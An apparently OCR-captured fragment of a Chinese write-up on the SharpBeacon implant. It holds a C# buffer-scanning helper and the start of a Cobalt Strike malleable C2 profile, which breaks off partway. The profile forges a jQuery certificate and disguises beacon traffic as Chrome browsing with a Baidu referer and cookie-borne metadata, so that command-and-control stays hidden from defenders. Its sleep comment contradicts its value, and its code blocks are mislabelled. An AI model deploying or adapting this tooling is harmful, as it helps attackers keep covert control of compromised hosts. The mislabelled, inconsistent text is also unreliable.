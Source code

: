 ```php
}

static int FindConsecutiveZeros(byte[] buffer, int startIndex, int count)
{
    for (int i = startIndex - 1; i >= count - 1; i--)
    {
        bool allZeros = true;
        for (int j = 0; j < count; j++)
        {
            if (buffer[i - j] != 0x00)
            {
                allZeros = false;
                break;
            }
        }
        if (allZeros)
        {
            return i - count + 1;
        }
    }
    return -1;
}
```

这里需要注意：`ExtractString`中的length需要减2。

```php
set sample_name "SharpBeacon Profile";
set sleeptime "30000";         # 45 Seconds
set jitter    "37";            # % jitter

https-certificate {
    set C   "US";
    set CN  "jquery.com";
    set O   "jQuery";
    set OU  "Certificate Authority";
    set validity "365";
}

set host_stage "false";

http-get {

    set uri "/search";
    set verb "GET";

    client {
        header "User-Agent" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.0.0 Safari/537.36";
        header "Accept-Language" "zh-CN,zh;q=0.9,en;q=0.8";
        header "Referer" "https://www.baidu.com/";
        header "Accept-Encoding" "gzip, deflate";
        header "Sec-Fetch-Site" "same-origin";

        metadata {
            base64;
            prepend "";
            header "Cookie";
        }
    }

    server {

```